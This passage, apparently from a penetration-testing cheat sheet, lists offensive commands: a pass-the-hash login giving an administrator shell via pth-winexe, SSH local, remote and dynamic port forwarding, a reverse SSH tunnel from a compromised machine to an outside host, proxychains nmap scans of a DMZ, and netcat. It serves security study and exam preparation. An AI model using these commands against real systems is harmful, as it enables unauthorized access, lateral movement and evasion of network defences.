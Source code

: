         `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `
          
        `pth-winexe -U administrator //$ip cmd`

Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   `apt-get install rinetd`

    -   `cat /etc/rinetd.conf`

        ```
        # bindadress bindport connectaddress connectport
        w.x.y.z 53 a.b.c.d 80
        ```

-   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>` 

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   `ssh -D <local proxy port> -p <remote port> <target>`

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222  
        
        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
        `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    -   Create a Dynamic application-level port forward on 8080 thru
        2222  
        
        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains  
        
        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

-   HTTP Tunneling  
      
      `nc -vvn $ip 8888`

-   Traffic Encapsulation - Bypassing deep packet inspection
